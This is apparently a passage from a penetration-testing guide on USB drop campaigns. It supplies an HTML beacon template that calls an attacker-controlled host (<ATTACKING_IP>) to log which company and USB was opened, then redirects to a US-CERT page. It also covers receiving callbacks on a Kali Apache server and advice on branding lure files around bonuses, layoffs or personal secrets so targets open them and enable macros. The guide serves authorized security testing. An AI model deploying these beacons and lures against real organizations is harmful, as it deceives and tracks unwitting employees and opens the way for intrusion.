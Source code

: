 How to do it  

HTML file creation  
- Save the following code as an HTML file, be sure to modify line 2 parameters (COMPANY1 and USB)

```
<html><head><meta charset="UTF-8" />
<img src=http://<ATTACKING_IP>/<COMPANY_DESC>/?usb=<USB_DESC>,method=HTML">
<meta http-equiv="refresh" content="1;url=https://www.us-cert.gov/ncas/tips/ST08-001" />
<script type="text/javascript">window.location.href = "https://www.us-cert.gov/ncas/tips/ST08-001"</script>
<title>Page Redirection</title></head>
<body>If you are not redirected automatically, follow the <a href="https://www.us-cert.gov/ncas/tips/ST08-001">link</a>.</body></html>
```  

**Side-Note:** Be sure to update line 2 with the appropriate attacking IP, company description, and USB description.
{: .notice--info}  

Recieve Callbacks
- Start web server on Kali  
`service apache2 start`  
- You can review your apache logs at /var/log/apache2/access.log  

![USB Drop Callback HTML](/assets/images/usb_drop_callback_html.jpg)  

Files  

- [redirect_landing.html](https://github.com/bradleythornton/usb_drop_templates/blob/master/Redirect_Landing.html)

**Branding**  

Reduce suspicion by making the files as believable as possible. Research the company branding and incorporate it into your files. You can do this by using the company’s logo, lingo, color schemes, font, and culture. A great way to find this information is on their website or the merchandise that they provide. Not only is it important to reduce suspicion but its also important to lure the target to open files and enable a macro or bypass a security feature. One of the common methods is to get the target to be curious enough about a file to open it. There are many ways to do this but the ones I’ve had the best success with are things about money (budgets, bonuses, raises), information about themselves or their peers (performance reviews, layoffs, terminations, outsourcing plans), and other personal information (personal password lists, resumes, love letters). This is where you really have to put on your thinking cap and figure out what would be important to your targets to bypass their security protocols.  

**Server Config**  

In previous sections it’s mentioned hosting locations and how to receive callbacks. What this is referring to is your attacking machine. You’ll essentially be hosting a web server that will serve websites/images/listeners/etc. for your target to reach to. This is a great way to simulate the position of an attacker and receive statistics all at the same time. I use Kali Linux a lot in my current role so that’s what I’ll be providing as the basis for the instructions below. I run Kali as a virtual machine, but you could do this in any configuration of your choosing. Guides on the installation process are littered all over the web, no sense in me adding to it but [I can google it for you](https://www.google.com/search?q=installing+kali+on+vm).   
